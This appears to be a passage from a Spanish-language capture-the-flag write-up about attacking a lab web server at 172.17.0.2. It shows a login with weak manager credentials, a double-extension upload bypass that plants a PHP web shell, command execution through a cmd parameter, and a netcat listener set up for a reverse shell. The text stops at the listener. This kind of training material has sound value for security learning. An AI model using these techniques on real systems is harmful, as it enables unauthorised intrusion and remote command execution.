 Enviamos la peticion: **ctrl + u** y nos responde el servidor con:
```bash
HTTP/1.1 200 OK
Date: Sun, 22 Jun 2025 22:33:20 GMT
Server: Apache/2.4.58 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2206
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-
```

Asi que ahora intentamos conectarnos como el usaurio manager:

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Una ves que logramos conectarnos con estas credenciales, Intentaremos subir un post malicioso:
```bash
username: manager
password: 12345
```

### Ejecucion del Ataque
Tenemos un panel en el cual podemos subir **post** el cual si no esta sanitizado, Nos aprovecharemos de eso para cargar un archivo malicioso en esta ruta:
```bash
http://172.17.0.2/dashboard.php
```

Ahora ejecutamos un ataque de doble extension, Es decir subiremos un archivo malicioso asi:
```bash
cmd.php.jpg
```

Cundo le damos en subir imagen y despues en crear **posts** vemos que funciona nos permite subirlo:
al subirlo nos da la rua en donde es que se esta almacenando la imagen, Asi que una ves subido tenemos que apuntar a dicha ruta:
```bash
<img src="posts/uploads/cmd.php"
```

Apuntamos a la ruta e intetamos ejecutar comandoss
```bash
# Comandos para explotación
http://172.17.0.2/posts/uploads/cmd.php?cmd=whoami
```

### Intrusion
Ahora que tenemos capacidad de ejecutar comandos, Procedemos a ponernos en escucha.
```bash
nc -nlvp 443
```
